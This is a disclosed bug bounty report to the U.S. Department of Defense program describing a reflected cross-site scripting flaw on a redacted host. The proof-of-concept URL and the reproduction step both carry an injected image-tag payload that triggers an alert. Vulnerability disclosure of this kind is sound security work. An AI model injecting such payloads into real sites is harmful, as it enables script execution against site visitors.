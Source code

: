 # XSS on https://████████/████' parameter

## Report Details
- **Report ID**: 1252020
- **URL**: https://hackerone.com/reports/1252020
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-05T19:32:45.418Z
- **Disclosed**: 2022-04-07T19:57:50.131Z

## Reporter
- **Username**: homosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
PoC
```
https://█████/██████████<img%20src=x%20onerror=alert()>
```
███████

## Impact

XSS on https://████/

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Got to 
```
https://██████/███<img%20src=x%20onerror=alert()>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
